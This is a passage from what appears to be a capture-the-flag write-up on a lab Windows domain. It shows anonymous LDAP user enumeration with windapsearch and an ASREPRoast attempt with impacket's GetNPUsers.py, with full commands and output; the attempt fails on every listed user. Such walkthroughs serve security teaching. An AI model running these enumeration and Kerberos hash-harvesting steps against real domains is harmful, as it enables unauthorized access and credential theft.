 distinguishedName: DC=htb,DC=local
...
{% endhighlight %}

I'm not sure what to look for but let's first look at what users we can find? I wasn't familiar with how `LDAP` queries work so I decided to use another tool [`windapsearch`](https://github.com/ropnop/windapsearch) to simplify the job.

{% highlight bash %}
python windapsearch.py -d htb.local -U
[+] No username provided. Will try anonymous bind.
[+] No DC IP provided. Will try to discover via DNS lookup.
[+] Using Domain Controller at: 10.10.10.161
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=htb,DC=local
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD users
[+]	Found 28 users: 

...

cn: Sebastien Caron
userPrincipalName: sebastien@htb.local

cn: Lucinda Berger
userPrincipalName: lucinda@htb.local

cn: Andy Hislip
userPrincipalName: andy@htb.local

cn: Mark Brandt
userPrincipalName: mark@htb.local

cn: Santi Rodriguez
userPrincipalName: santi@htb.local


[*] Bye!
{% endhighlight %}

Nice! We found 5 usernames to play with! But what exactly can we do with them?

Seeing that there is `Kerberos` running on port `88`, we know that we probably need to get our hands dirty with Kerberos attacks. After reading this [article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/), lets see if we can perform the `ASREPRoast` attack using `impacket`'s [`GetNPUsers.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) while specifying the 5 usernames we found.

{% highlight bash %}
$ cat users.txt
sebastien
lucinda
andy
mark
santi

$ GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
{% endhighlight %}
